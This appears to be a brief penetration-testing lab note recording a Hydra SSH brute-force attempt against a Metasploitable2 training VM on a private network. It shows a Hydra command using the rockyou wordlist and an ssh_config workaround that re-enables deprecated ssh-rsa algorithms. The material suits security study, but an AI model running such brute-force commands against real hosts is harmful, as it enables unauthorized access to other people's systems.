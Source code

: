 # SSH Brute-Force Attempt – Metasploitable2

Tool: Hydra v9.5
Command:
hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.6.3

Result:
[ERROR] could not connect to ssh://192.168.6.3:22 - kex error: no match for method server host key algo

Reason:
Metasploitable2 supports only deprecated algorithms: ssh-rsa, ssh-dss
Hydra (and modern SSH clients) default to stronger, incompatible algorithms

Workaround:
- Updated `/etc/ssh/ssh_config` with:
    Host 192.168.6.3
        HostkeyAlgorithms +ssh-rsa
        PubkeyAcceptedAlgorithms +ssh-rsa

Manual access:
ssh msfadmin@192.168.6.3 → SUCCESS



